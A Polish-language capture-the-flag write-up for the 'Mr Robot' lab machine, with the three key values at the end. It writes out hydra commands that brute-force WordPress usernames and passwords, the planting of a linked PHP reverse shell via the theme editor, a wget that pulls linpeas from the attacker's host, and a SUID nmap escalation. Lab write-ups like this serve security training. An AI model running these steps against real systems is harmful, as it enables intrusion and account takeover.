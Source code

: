 # Mr Robot
## Zadanie

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

## Kroki

Celem jest odnalezienie 3 kluczy, wystartujmy nasz target i przyjrzyjmy się z czym mamy do czynienia!

Rozpocznijmy od rekonesansu przy użyciu nmap.

![alt text](image.png)

Mamy otwarte 3 porty 22,80,443 wejdźmy więc na stronę HTTP.

![alt text](image-1.png)

Po wejściu na stronę mamy coś w stylu terminala root'a zobaczmy co możemy zrobić. 

Postanowiłem sprawdzić robots.txt, okazało się że jest tam zapisana ciekawa nazwa `key-1-of-3.txt`, po sprawdzeniu `/key-1-of-3.txt` pierwsza flaga jest nasza!

![alt text](image-2.png)
![alt text](image-3.png)

Dodatkowo mamy wymieniony również plik `fsocity.dic`, zapiszmy go wygląda na wordlistę, którą użyjemy później. Zrobiłem enumerację ścieżek używając gobustera i znalazło się pare trafień które przenoszą nas na wordpressowy blog.

![alt text](image-4.png)

Obrałem następującą taktykę, znalazłem stronę przypominania hasła `/wp-login.php?action=lostpassword` następnie używając hydry i wordlisty `fsocity.dic` próbowałem znaleźć username jakiegoś użytkownika.

Ze względu na duży rozmiar listy postanowiłem ją zdeduplikować co skróciło ją 80-krotnie.
`sort -o fsocity.dic -u fsocity.dic`

`hydra -L fsocity.dic 10.10.52.89 -p pass http-post-form "/wp-login.php?action=lostpassword:user_login=^USER^&redirect_to=&wp-submit=Get+New+Password:Invalid username" `

![alt text](image-5.png)

Udało się znaleźć usera o nicku 'Elliot', znając tą informację spróbujmy złamać jego hasło używając tej samej wordlisty!

Użyłem komendy:

`hydra -l Elliot 10.10.113.29 -P fsocity.dic http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.113.29%2Fwp-admin%2F&testcookie=1:The password you entered" `

![alt text](image-6.png)

Ok, hasło znalezione. Zalogujmy się więc do WordPressa.
Przeniosło nas do panelu wp-admin.

![alt text](image-7.png)

Wersja to 4.3.1 w tej wersji występuje podatność RCE, pobierzmy więc kod reverse shell.

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

Kod musimy wkleić w edycji naszego motywu `/wp-admin/theme-editor.php?file=comments.php&theme=twentyfifteen`
Gdy go umieścimy uruchamiamy nasłuchiwanie netcata na wybrany port przechodzimy do `/wp-content` wtedy nasz reverse shell powinien "załapać".

![alt text](image-8.png)
![alt text](image-9.png)

Nawigujemy do pulpitu i próbujemy otworzyć `key-2-of-3.txt`, niestety bezskutecznie, pod spodem mamy plik `password.raw-md5` zawiera on shashowane credentiale do naszego konta więc przy pomocy crackstation.net odszyfrowujemy je.

![alt text](image-10.png)
![alt text](image-11.png)

Gdy już je mamy przechodzimy do połączenia przez SSH, udało nam się połączyć odczytujemy z ~ naszą flagę i mamy kolejną do kolekcji!

![alt text](image-12.png)
![alt text](image-13.png)

Czas na ostatnią flagę root'a przejdźmy do folderu `/tmp` i ściągnijmy przy pomocy **wget** kopie skryptu `linpeas.sh`

https://github.com/peass-ng/PEASS-ng/releases/tag/20251001-67326308

W tym celu w naszej konsoli przechodzimy do folderu w którym mamy `linpeas.sh` i uruchamiamy polecenie `python3 -m http.server 8000`, potem w shellu targetu uruchamiamy komendę `wget http://<YOUR_IP>:8000/linpeas.sh`. Następnie dajemy uprawnienia `chmod +x linpeas.sh` i uruchamiamy skrypt `./linpeash.sh`. Linpeas nie zwrócił nic co by zadziałało więc posłużymy się komendą na wyszukanie binów z dostępem dla nas a następnie za pomocą GTFObins.github.io znajdziemy interesujący nas bypass. W tym przypadku kluczem był nmap :)

![alt text](image-14.png)

I tym sposobem zdobywamy ostatnią flagę!

## Flaga

Klucz 1: **073403c8a58a1f80d943455fb30724b9**
Klucz 2: **822c73956184f694993bede3eb39f959**
Klucz 3: **04787ddef27c3dee1ee161b21670b4e4**

